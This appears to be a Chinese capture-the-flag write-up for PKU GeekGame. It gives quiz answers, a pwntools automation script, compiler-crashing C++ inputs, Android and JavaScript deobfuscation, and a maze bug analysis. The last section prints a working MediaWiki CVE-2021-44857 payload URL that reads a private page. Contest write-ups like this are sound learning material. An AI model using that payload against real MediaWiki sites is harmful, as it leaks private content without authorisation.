>  被 HackerGame 和 GeekGame 混合双打，尽力了。
>
>  

# †签到†

用 WPS 打开但无法全部选中也无法复制，于是换了一个 SumatraPDF 打开发现能够全选复制出来





# 小北问答 · 极速版

>  共有 8 道题，每次随机抽 7 道题

问：北京大学某实验室曾开发了一个叫 gStore 的数据库软件。最早描述该软件的论文的 DOI 编号是多少？

答：`10.14778/2002974.2002976`

参考：https://dl.acm.org/doi/abs/10.14778/2002974.2002976

---

问：访问网址 `http://ctf.世界一流大学.com`时，向该主机发送的 HTTP 请求中 Host 请求头的值是什么？

答：`ctf.xn--4gqwbu44czhc7w9a66k.com`

参考：浏览器开发者工具查看请求包

---

问：支持 WebP 图片格式的最早 Firefox 版本是多少？

答：`65`

参考：https://www.landiannews.com/archives/52156.html

---

问：视频 `bilibili.com/video/BV1EV411s7vu 也可以通过 bilibili.com/video/av_____` 访问。下划线内应填什么数字？

答：`418645518`

参考：[BV 转 AV 网站](https://tools.jixiaob.cn/bv2av/)

---

问：每个 Android 软件都有唯一的包名。北京大学课外锻炼使用的最新版 PKU Runner 软件的包名是什么？

答：`cn.edu.pku.pkurunner`

解答：[下载 APK](https://pku-runner.github.io/) 后使用 [Apktool](https://github.com/iBotPeaches/Apktool) 反编译后查看`AndroidManifest.xml`



---

问：在第一届 PKU GeekGame 比赛的题目《电子游戏概论》中，通过第 x 级关卡需要多少金钱？

解答：这一小问做了挺久。下载第一届 PKU-GeekGame 电子游戏概论的题目附件分析源码后发现通关所需的金钱数根本不在代码中。然后查看各个选手的 WP ，发现第 16 关所需金钱是 6700 ， 15 关所需金钱是 6100 ，这两关之间相差 600 ，越靠前面的两关之间相差的越少，且通关所需的金钱数应该都是 100 的整数倍，最终在不断尝试后把各关所需的金钱数试了出来，在下面的代码中

---

问：我有一个朋友在美国，他无线路由器的 MAC 地址是 d2:94:35:21:42:43。请问他所在地的邮编是多少？

答：不知道

---

问：我刚刚在脑海中想了一个介于 xxxxxxxxx 到 yyyyyyyyyy 之间的质数。猜猜它是多少？

答：猜

每次抽到该题目时生成的范围都不一样，但是通过

```PYTHON
from sympy import primerange
print(len(list(primerange(xxxxxxxxx, yyyyyyyyyy))))
```

发现两个数之间的质数总是有 8 个

---

按现在的情况来看

- 不能抽到关于邮编的那道题目，概率应该是 1/8
- 且关于质数的那道题需要猜对，概率应该是 1/8

这样才能够拿到 100 分，需要写脚本了

```PYTHON
from pwn import *
import re
import time
import sympy

context.log_level = "debug"

doi = b"10.14778/2002974.2002976"
host = b"ctf.xn--4gqwbu44czhc7w9a66k.com"
package = b"cn.edu.pku.pkurunner"
av = b"418645518"
firefox = b"65"
money_dict = {
    "1": b"400",
    "2": b"600",
    "3": b"800",
    "4": b"1100",
    "5": b"1400",
    "6": b"1700",
    "7": b"2100",
    "8": b"2500",
    "9": b"3000",
    "10": b"3400",
    "11": b"3900",
    "12": b"4400",
    "13": b"4900",
    "14": b"5500",
    "15": b"6100",
    "16": b"6700"
}


def bomb():
    r = remote("prob01.geekgame.pku.edu.cn", 10001)
    r.recvuntil(b"token: ")
    r.sendline(b"你的Token")
    r.recvuntil(b"> ")
    r.sendline("急急急".encode())

    for i in range(7):
        q = r.recvuntil(b"> ").decode()
        print(q)
        if "gStore" in q:
            r.sendline(doi)
        elif "Host" in q:
            r.sendline(host)
        elif "Runner" in q:
            r.sendline(package)
        elif "bilibili" in q:
            r.sendline(av)
        elif "Firefox" in q:
            r.sendline(firefox)
        elif "PKU GeekGame" in q:
            send_money(r, q)
        elif "质数" in q:
            number, p = send_prime(r, q)
            q = r.recvuntil("。".encode()).decode()
            # 如果结果不正确则重新开始
            if "不正确" in q:
                r.close()
                time.sleep(10)
                bomb()
        # 如果抽到了找邮编的也重新开始
        else:
            print(q, "\n Fail!")
            r.close()
            time.sleep(10)
            bomb()
    r.interactive()

# 得到是第几关，发送对应关卡的金钱数
def send_money(r, question):
    level = re.findall(r"\d{1,2}", question)[1]
    r.sendline(money_dict[level])

# 得到两个数字，发送两个数字之间的一个质数
def send_prime(r, question):
    number = re.findall(r"\d+", question)[1]
    p = sympy.nextprime(int(number))
    print(p)
    r.sendline(str(p).encode())
    return number, p

bomb()
```




# 编原译理习题课

## 玩挺大

分配一个大的全局数组即可

```C++
#include <iostream>
using namespace std;

double a[10000000] = {1};
int main()
{
    cout << 1;
}
//EOF
```


## 玩挺长

某乎上找到一个：https://www.zhihu.com/question/61427323

```C++
#include <iostream>
using namespace std;

int main()
{
    struct x struct z<x(x(x(x(x(x(x(x(x(x(x(x(x(x(x(x(x(y,x(y><y*,x(y*w>v<y*,w,x{};
}
//EOF
```



## 玩挺花

分析题目给的源码，搜索`Please include the complete backtrace with any bug report.`，找到了[这篇文章](https://bugzilla.redhat.com/show_bug.cgi?id=1842304)，里面有源码

```C++
void f()
{
    alignof((
        {
            label:
                0;
        }));
    goto label;
}
//EOF
```




# Flag Checker

使用 [jadx](https://github.com/skylot/jadx) 反编译后分析源码

## Flag 1

第一个 flag 是先经过 `Base64` 编码后再经过`ROT13` ，不过对`ROT13`进行了小改动，`0~4`与`5~9`映射，最终得到的是

`MzkuM8gmZJ6jZJHgnaMuqy4lMKM4`

因此首先对数字进行替换得到

`MzkuM3gmZJ1jZJHgnaMuqy9lMKM9`

再进行`ROT13`解码以`及Base64`解码




## Flag 2

源码中首先生成了 JS 代码，然后使用内置的 JS 引擎执行了该 JS 代码， 而 flag2 的生成逻辑就在此 JS 代码中，因此首先获得此 JS 代码

```JAVA
public class GetCode
{
    public static void main(String args[]){
        StringBuilder sb = new StringBuilder();
        for (int i = 0; i < "\u0089\u009a\u0081\u008c\u009b\u0086\u0080\u0081Ï\u008c\u0087\u008a\u008c\u0084\u0089\u0083\u008e\u0088ÝÇ°ß\u0097\u008e×Ü\u008a\u0097ÝÆ\u0094\u0099\u008e\u009dÏ°ß\u0097ØÝÛ\u008dÒ´È\u008c\u0087\u008e\u009d¬\u0080\u008b\u008a®\u009bÈÃÈ\u0082\u008e\u009fÈÃÈÈÃÈ\u009c\u009f\u0083\u0086\u009bÈÃÈ\u009c\u009b\u009d\u0086\u0081\u0088\u0086\u0089\u0096ÈÃȬ\u0080\u009d\u009d\u008a\u008c\u009bÈÃȸ\u009d\u0080\u0081\u0088ÈÃÈ\u0085ÂȲÔ\u009d\u008a\u009b\u009a\u009d\u0081ÏÇ¥¼ ¡´°ß\u0097ØÝÛ\u008d´Û²²Ç°ß\u0097\u008e×Ü\u008a\u0097Ý´°ß\u0097ØÝÛ\u008d´Ü²²Ç°ß\u0097ØÝÛ\u008d´Ý²Æ´°ß\u0097ØÝÛ\u008d´Þ²²Ç\u0089\u009a\u0081\u008c\u009b\u0086\u0080\u0081Ç°ß\u0097\u008e×Ü\u008a\u0097ÜÆ\u0094\u009d\u008a\u009b\u009a\u009d\u0081Ï°ß\u0097\u008e×Ü\u008a\u0097Ü´°ß\u0097ØÝÛ\u008d´ß²²ÇßÆ\u0092ÆÆÒÒÏ¥¼ ¡´°ß\u0097ØÝÛ\u008d´Û²²Ç´ßÃÞÚÃÞÙÃÞØÃÜßÃÞßÚÃÞÙÃÜÞÃÞÙÃÙØÃÜÃÜÜÃÚÃÙßÃÛÃÞßÙÃÙÃÛÞÃßÃÞÃÙØÃÜÃÞÙÃÛÃÙÃÜÜÃÝÜݲ´°ß\u0097ØÝÛ\u008d´Þ²²Ç\u0089\u009a\u0081\u008c\u009b\u0086\u0080\u0081Ç°ß\u0097\u008e×Ü\u008a\u0097ÜÆ\u0094\u009d\u008a\u009b\u009a\u009d\u0081ÏÇ\u008c\u0087\u008a\u008c\u0084\u0089\u0083\u008e\u0088ÝÄÏ°ß\u0097ØÝÛ\u008d´Ý²Æ´°ß\u0097ØÝÛ\u008d´ß²²Ç°ß\u0097\u008e×Ü\u008a\u0097ÜÆ\u0092ÆÆаß\u0097ØÝÛ\u008d´Ú²Õ°ß\u0097ØÝÛ\u008d´Ù²Æ\u0092".length(); i++) {
            sb.append((char) ("\u0089\u009a\u0081\u008c\u009b\u0086\u0080\u0081Ï\u008c\u0087\u008a\u008c\u0084\u0089\u0083\u008e\u0088ÝÇ°ß\u0097\u008e×Ü\u008a\u0097ÝÆ\u0094\u0099\u008e\u009dÏ°ß\u0097ØÝÛ\u008dÒ´È\u008c\u0087\u008e\u009d¬\u0080\u008b\u008a®\u009bÈÃÈ\u0082\u008e\u009fÈÃÈÈÃÈ\u009c\u009f\u0083\u0086\u009bÈÃÈ\u009c\u009b\u009d\u0086\u0081\u0088\u0086\u0089\u0096ÈÃȬ\u0080\u009d\u009d\u008a\u008c\u009bÈÃȸ\u009d\u0080\u0081\u0088ÈÃÈ\u0085ÂȲÔ\u009d\u008a\u009b\u009a\u009d\u0081ÏÇ¥¼ ¡´°ß\u0097ØÝÛ\u008d´Û²²Ç°ß\u0097\u008e×Ü\u008a\u0097Ý´°ß\u0097ØÝÛ\u008d´Ü²²Ç°ß\u0097ØÝÛ\u008d´Ý²Æ´°ß\u0097ØÝÛ\u008d´Þ²²Ç\u0089\u009a\u0081\u008c\u009b\u0086\u0080\u0081Ç°ß\u0097\u008e×Ü\u008a\u0097ÜÆ\u0094\u009d\u008a\u009b\u009a\u009d\u0081Ï°ß\u0097\u008e×Ü\u008a\u0097Ü´°ß\u0097ØÝÛ\u008d´ß²²ÇßÆ\u0092ÆÆÒÒÏ¥¼ ¡´°ß\u0097ØÝÛ\u008d´Û²²Ç´ßÃÞÚÃÞÙÃÞØÃÜßÃÞßÚÃÞÙÃÜÞÃÞÙÃÙØÃÜÃÜÜÃÚÃÙßÃÛÃÞßÙÃÙÃÛÞÃßÃÞÃÙØÃÜÃÞÙÃÛÃÙÃÜÜÃÝÜݲ´°ß\u0097ØÝÛ\u008d´Þ²²Ç\u0089\u009a\u0081\u008c\u009b\u0086\u0080\u0081Ç°ß\u0097\u008e×Ü\u008a\u0097ÜÆ\u0094\u009d\u008a\u009b\u009a\u009d\u0081ÏÇ\u008c\u0087\u008a\u008c\u0084\u0089\u0083\u008e\u0088ÝÄÏ°ß\u0097ØÝÛ\u008d´Ý²Æ´°ß\u0097ØÝÛ\u008d´ß²²Ç°ß\u0097\u008e×Ü\u008a\u0097ÜÆ\u0092ÆÆаß\u0097ØÝÛ\u008d´Ú²Õ°ß\u0097ØÝÛ\u008d´Ù²Æ\u0092".charAt(i) ^ 239));
        }
        System.out.println(sb);
    }
}
```

得到了下面经过混淆的 JS 代码

```JAVASCRIPT
function checkflag2(_0xa83ex2){var _0x724b=['charCodeAt','map','','split','stringify','Correct','Wrong','j-'];return (JSON[_0x724b[4]](_0xa83ex2[_0x724b[3]](_0x724b[2])[_0x724b[1]](function(_0xa83ex3){return _0xa83ex3[_0x724b[0]](0)}))== JSON[_0x724b[4]]([0,15,16,17,30,105,16,31,16,67,3,33,5,60,4,106,6,41,0,1,67,3,16,4,6,33,232][_0x724b[1]](function(_0xa83ex3){return (checkflag2+ _0x724b[2])[_0x724b[0]](_0xa83ex3)}))?_0x724b[5]:_0x724b[6])}
```

分析代码逻辑后，发现其功能就是判断给定的字符串是否与源码中固定位置的字符组成的字符串相等

因此编写脚本

```PYTHON
code = "function checkflag2(_0xa83ex2){var _0x724b=['charCodeAt','map','','split','stringify','Correct','Wrong','j-'];return (JSON[_0x724b[4]](_0xa83ex2[_0x724b[3]](_0x724b[2])[_0x724b[1]](function(_0xa83ex3){return _0xa83ex3[_0x724b[0]](0)}))== JSON[_0x724b[4]]([0,15,16,17,30,105,16,31,16,67,3,33,5,60,4,106,6,41,0,1,67,3,16,4,6,33,232][_0x724b[1]](function(_0xa83ex3){return (checkflag2+ _0x724b[2])[_0x724b[0]](_0xa83ex3)}))?_0x724b[5]:_0x724b[6])}"

position = [0, 15, 16, 17, 30, 105, 16, 31, 16, 67, 3, 33, 5, 60, 4, 106, 6, 41, 0, 1, 67, 3, 16, 4, 6, 33, 232]

for i in position:
    print(code[i], end="")
```

得到
`flag{javascript-obfuscator}`


# 智慧检测器

这是一个三维迷宫，玩的时候发现能够穿墙，下面是 Demo



分析源码后发现是第 422 行代码导致的



- `CurPos`保存了当前位置，是一个列表

- `NewPos`保存了将要执行一次移动指令后的新的位置，也是一个列表

- 列表的值都是`[z, y ,x]`类型的， z 表示 z 轴坐标， y 表示竖直方向的坐标， x 表示水平方向的坐标，比如在 Demo 中出生位置的坐标就是`[0, 1, 3]`

在 Demo 中，现在一次性输入了两个移动指令：` es` ，即首先向右移动，然后向下移动。下面分析代码执行移动指令的流程

1. `CurPos`是`[0，1，3]`
2. 尝试向右移动，此时`NewPos`是`[0,1,4]`
3. 判断`NewPos`的位置不是墙，因此能够移动
4. 执行`CurPos = NewPos`
5. 尝试向下移动，此时 `NewPos`是`[0,2,4]`
6. 判断`NewPos`的位置是墙，不能够移动，因此结束此轮移动并按`CurPos`绘制迷宫

注意第 4 步导致了`CurPos`和`NewPos`都指向一个列表，因此操作`NewPos`就相当于操作`CurPos`，执行第 5 步后，`CurPos`就是`[0,2,4]`，也就是墙的位置，因此导致了穿墙

此时题目就非常简单了

## 破坏者

由于第一关只有一层，因此正常移动一次后上跳一层即可导致错误




## 调停者

第三关不断上跳即可到达第 80 层，在这期间不断接近对边，防止步数不够用




# 企鹅文档

>  第一步

搜索`通过以下链接访问题目机密flag：`得到受保护的链接的第一部分



搜索`机密flag链接已经受到保护，只允许出题人访问`得到受保护的链接的第二部分




> 第二步

访问得到的受保护的链接`https://geekgame.pku.edu.cn/service/template/prob_kAiQcWHobsBzRJEs_next`



下载下来一个`challeng.har`文件，浏览器导入后搜索关键字`Below is your flag`找到包含表格数据的响应体



在这里可以看到哪些表格被填充了黑色

因此自己写了一个相近的文档，保证行数足够多，然后抓包进行替换，尝试并修改了很多次后才成功渲染出页面



> 这样做失败率太高。应该可以获得所有被填充了黑色的表格的坐标，然后自己编写脚本生成位图


# 私有笔记

## 知识与你分享

参考：https://www.mediawiki.org/wiki/2021-12_security_release/FAQ/zh

`首页`的`old_id`是`1`，是公开的
`flag`的`old_id`是`2`，是私有的

需要访问公开页面来利用`CVE-2021-44857`

paypload 为`index.php?title=首页&action=mcrundo&undoafter=2&undo=1`
